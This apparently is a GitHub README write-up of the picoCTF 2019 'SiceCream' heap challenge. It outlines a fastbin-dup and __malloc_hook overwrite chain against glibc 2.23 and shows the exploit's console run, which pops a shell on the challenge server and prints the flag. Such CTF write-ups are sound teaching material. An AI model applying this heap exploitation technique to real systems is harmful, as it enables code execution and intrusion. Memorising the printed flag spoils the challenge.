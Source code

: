 # SiceCream

A heap exploitation challenge from picoctf 2019.
The glibc version used is 2.23 (no tcache, house of orange via unsorted bin attack is possible)
## Exploit steps:
* Use fatbins dup to create a chunk inside name variable in data (fixed address)
* Reintroduce in order to change the chunk's size to smallbin size
* Free that chunk and use reintroduce to read unsorted bin fd/bk to get a libc leak
* use fastbin dup to create another chunk inside name, and fill it with p64(0) thus getting more allocations ('buy ice cream') from the program
* use fatbins dup to write a size filed into main_arena (top overwrite main_arena.top)
* use fastbin dup with the size written in main arena to overwerite top chunk ptr to __malloc_hook - 0x23 (location of a fake chunk)
* overwrite __malloc_hook with one_gadget using the curropted top chunk ptr
* double free a chunk thus triggering a call to malloc() and popping a shell
```console
orkinyo@ubuntu:~/ctfs/pico/sice_cream/sice_cream_final$ python3 exploit.py 
[*] '/home/orkinyo/ctfs/pico/sice_cream/sice_cream_final/sice_cream'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
[*] '/home/orkinyo/ctfs/pico/sice_cream/sice_cream_final/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to jupiter.challenges.picoctf.org on port 9521: Done
[+] leak = 0x7f6f54148b78
[+] libc load address = 0x7f6f53d84000
[+] got more chunks to malloc
[+] got fake chunk in main arena, size = 0x61
[+] got more chunks to malloc
[+] overwrote main_arena.top with address of __malloc_hook - 0x23 = 0x7f6f54148aed
[+] overwrote __malloc_hook with one_gadget
[*] triggering double free() to call malloc()
[+] ---pwned!---
[*] Switching to interactive mode
*** Error in `/problems/sice-cream_1_dea8d3391cf318aa30fdf76bee8d9120/sice_cream': double free or corruption (fasttop): 0x0000000000ffd2a0 ***
$ whoami
sice-cream_1
$ ls
flag.txt
ld-2.23.so
libc.so.6
sice_cream
xinet_startup.sh
$ cat flag.txt
flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_2c4930c6}
```